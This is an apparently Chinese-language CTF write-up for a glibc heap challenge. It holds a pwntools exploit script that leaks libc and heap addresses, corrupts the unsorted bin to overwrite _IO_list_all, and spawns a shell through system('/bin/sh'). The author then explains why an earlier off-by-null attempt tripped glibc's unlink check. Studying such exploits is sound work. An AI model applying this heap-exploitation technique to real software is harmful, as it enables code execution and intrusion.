```
add(0x38,'\n')#4 0xf0
add(0x18,'\n')#5 0x130
add(0x18,'\n')#11
delete(6)
delete(2)

malloc_consolidate()
add(0x38,'\n')#2
show(3)
a.recvuntil(": ")
libc_base=u64(a.recv(6).ljust(8,'\x00'))-88-libc.symbols["__malloc_hook"]-0x10
success("libc_base ==> 0x%x"%libc_base)
add(0x28,'\n')#6 = 3
add(0x28,p64(0x41)*3+'\n')#12  ,unsorted bin ==> 0x110
delete(12) 
delete(6) #fd ==> chunk4(chunk11)
show(3)
a.recvuntil(": ")
heap_base=u64(a.recv(6).ljust(8,'\x00'))-0xd0-0x10
success("heap_base ==> 0x%x"%heap_base)
delete(4)
io_list_all=libc_base+libc.symbols["_IO_list_all"]
payload=p64(0)*2
payload+='/bin/sh\x00'+p64(0x61)   # unsorted bin prev_size ,size 
payload+=p64(0)+p64(io_list_all-0x10)+'\n'
add(0x38,payload)
delete(7)
system_addr=libc.symbols["system"]+libc_base
payload='\x00'*0x18+p64(heap_base+0x1e8)+p64(system_addr)*3+'\n'
add(0x38,payload)
menu(1)
a.recv()
a.sendline("1")
a.interactive()
```

##### 创造last_remainder,绕过unlink检查

刚开始写exp时，使用offbyNULL是这样的:
```
for i in range(1,6):
    delete(i)
malloc_consolidate() //合并，放入unsored bin中，由于申请了large bin，遍历unsored bin的时候放入了small bin

delete(0)
add(0x38,'\x00'*0x38)
```
使用预留的chunk0，free他然后再申请到他，来造成offbyNULL，溢出其size位。
但是这样溢出后，再申请chunk就会挂掉。原因是：后面遍历small bin的时候，切割操作会触发unlink操作。
unlink会检查nextchunk的prev_size是否和将要unlink的chunk的size相同，但是溢出后size变小，nextchunk的prev_size并没有设置，所以会报错:

遍历完unsorted bin后，遍历bin，将bin中的chunk取出：
```
      else
            {
              size = chunksize (victim);
              /*  We know the first chunk in this bin is big enough to use. */
              assert ((unsigned long) (size) >= (unsigned long) (nb));
              remainder_size = size - nb;
              /* unlink */
              unlink (av, victim, bck, fwd); //这里会触发unlink操作
              /* Exhaust */
              if (remainder_size < MINSIZE)
                {
                  set_inuse_bit_at_offset (victim, size);
```